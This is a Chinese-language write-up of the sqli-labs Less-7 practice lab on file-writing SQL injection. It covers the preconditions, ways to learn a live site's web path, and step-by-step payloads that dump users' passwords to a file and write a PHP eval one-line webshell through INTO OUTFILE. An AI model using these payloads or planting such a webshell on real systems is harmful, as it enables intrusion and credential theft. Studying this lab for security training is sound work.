# Chapter-1-靶场标题术语解析

Less-7:GET-Dump into outfile-String

- **Dump**：导出。在数据库语境 = 导出数据，把数据库里的数据导出到文件。

- **outfile**:输出文件。`into outfile`是 MySQL 关键字：将查询结果写入服务器磁盘上的文件。
  
# Chapter-2-文件写入型SQL注入前置条件

>注：Less-7 为文件写入型SQL注入，核心依靠 into outfile 函数向服务器写入文件（一句话木马等），直接获取网站权限，效率远高于盲注，但条件极其苛刻，三个条件必须同时全部满足才能执行，缺一不可。所有条件均为目标服务器/数据库配置，与攻击者本地电脑设备无关。

## 一、MySQL 配置条件：secure_file_priv 为空

该参数是MySQL数据库自带的安全配置项，控制数据库读写服务器本地文件的权限，是写入注入的前置核心门槛。
- 取值规则
  - secure_file_priv = 空值：允许MySQL读写服务器任意目录文件（Less-7 唯一可用状态）
  - secure_file_priv = 指定路径：仅允许在指定目录读写，无法利用写入webshell
  - secure_file_priv = NULL：彻底禁止文件读写， outfile 注入方案完全不可行，直接作废
- 场景区别
  - 本地靶场：可手动修改MySQL配置，轻松满足条件
  - 真实外网：新版MySQL默认禁止读写（NULL），绝大多数站点无法满足，这也是outfile注入极少使用的核心原因
  - 
## 二、信息收集条件：获取网站真实物理绝对路径

into outfile 必须指定服务器本地真实物理路径，才能将文件写入网站可访问目录，路径错误则注入失效。
- 本地靶场：文件为自己下载部署，可直接查看本地磁盘路径，无需探测
- 真实外网（专用探测手段，属于渗透信息收集阶段）
  - 网站报错泄露：构造错误SQL、访问不存在页面，通过报错信息爆出绝对路径
  - 文件泄露：phpinfo探针、404页面、网站备份文件、robots.txt、目录遍历漏洞
  - 默认路径猜测：Linux 默认 /var/www/html、Windows 默认 phpstudy 站点目录等
>注：真实场景可能无法成功获取路径，则直接放弃该注入思路

## 三、服务器权限条件：网站目录可写入

目标网站的web运行目录，必须对MySQL运行用户开放文件写入权限。
- 本地靶场：本地环境权限全开，默认满足写入条件
- 真实外网：运维为了安全，会严格限制网站目录写入权限，绝大多数站点仅允许读取、禁止写入，该条件很难满足

# Chapter-3-靶场实操完整SQLi流程

后台原始 SQL：`SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1`

## 前置条件准备

1. MySQL配置：secure_file_priv = 空值（允许任意路径文件读写）







2. 物理路径：当前sqli-labs靶场的本地路径：D:/phpstudy_pro/www/sqli-labs/

3. 目录权限：在D:/phpstudy_pro/www/sqli-labs/下能新建文件则说明有写入权限

### 步骤一

**payload:**`?id=1`

**payload:**`?id=1')) --+`

**payload:**`?id=1')) and 1=2 --+`



无回显：页面不返回数据库查询内容，联合查询（union）无法展示数据

无报错：网站关闭SQL错误提示，报错注入无任何效果

### 步骤二

**payload:**`?id=1')) order by 3 --+`

**paayload:**`?id=1')) order by 4 --+`



**payload:**`?id=-1')) union select 1,2,3 --+`

验证 union 联合查询可以执行，确认 3 列结构没问题。

### 步骤三

**payload:**`?id=-1')) union select 1,username,password into outfile "D:/phpstudy_pro/WWW/sqli-labs/user_data.txt" from security.users --+`







将security.users表里全部用户名、密码，导出写入服务器的 user_data.txt 文件。

>注：仅作解这道靶场题的示范，实际情景中不用这步，直接下一步。

### 步骤四

**payload:**`?id=-1')) union select '','<?php @eval($_POST["cmd"]);?>','' into outfile "D:/phpstudy_pro/WWW/sqli-labs/shell.php" --+`











用空字符串占位 3 列。不再用数字 1、3，多余字符写入php文件会污染木马。